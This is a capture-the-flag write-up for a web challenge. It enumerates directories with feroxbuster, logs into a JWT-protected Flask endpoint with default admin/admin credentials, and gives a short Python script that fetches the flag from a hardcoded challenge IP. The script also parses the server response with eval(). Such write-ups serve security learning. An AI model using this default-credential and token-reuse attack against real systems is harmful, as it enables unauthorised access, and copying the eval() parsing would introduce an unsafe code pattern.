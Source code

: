 # authorization:Web-Misc

Flag Proof: `CTF{5b7cc033a48df4958a076286420b4a91631defa16be26409afbdf1e053367b21}`

## Summary:

- Running `feroxbuster` it reveals some directories
    - 
    
    ![Untitled](authorization%20Web-Misc%209fec13917767465e9a7e4ec7c18354e7/Untitled.png)
    

- `/auth` endpoint only accepts `POST` requests

 

![Untitled](authorization%20Web-Misc%209fec13917767465e9a7e4ec7c18354e7/Untitled%201.png)

- Making an empty `POST` request we find that it expects `JSON`

```python
def _default_auth_request_handler():

    data = request.get_json()
    username = data.get(current_app.config.get('JWT_AUTH_USERNAME_KEY'), None)
    password = data.get(current_app.config.get('JWT_AUTH_PASSWORD_KEY'), None)
    criterion = [username, password, len(data) == 2]
```

- Using default params as `username` and `password` with default creds as `admin` gives us a JWT token , and after that i started to do a script, because i expected the token to expire after one second (thought that `exp` and `iat` values were the same, but they aren’t)
- Now `/secrets` endpoint comes in, which needs an access token
    - Using the `Authorization: JWT <token>` header gives us the flag

```python
import requests
from requests.structures import CaseInsensitiveDict

data = {"username":"admin","password":"admin"}

proxy ={
	'http':'127.0.0.1:8080'
}

r = requests.post('http://34.107.45.139:31682/auth',json=data)

#print(r.text)

json = eval(r.text)
#print(json["access_token"])

token = json["access_token"]
headers = CaseInsensitiveDict()

headers["Authorization"] = "JWT {}".format(token)

r = requests.get('http://34.107.45.139:31682/secrets',headers=headers)
print(r.text)
```

![Untitled](authorization%20Web-Misc%209fec13917767465e9a7e4ec7c18354e7/Untitled%202.png)
